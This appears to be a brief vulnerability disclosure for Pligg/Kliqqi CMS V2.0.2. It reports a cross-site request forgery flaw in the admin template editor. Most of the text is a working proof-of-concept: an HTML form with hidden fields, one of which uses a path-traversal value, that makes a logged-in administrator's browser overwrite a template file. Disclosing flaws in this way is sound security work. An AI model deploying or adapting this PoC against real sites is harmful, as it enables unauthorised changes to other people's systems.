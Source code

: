 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_editor.php

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_editor.php" method="POST">
      <input type="hidden" name="the_file2" value="..%2Ftemplates%2Fbootstrap%2Fabout_box.tpl" />
<input type="hidden" name="updatedfile" value="cs" />
<input type="hidden" name="isempty" value="1" />
<input type="hidden" name="save" value="Save+Changes" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

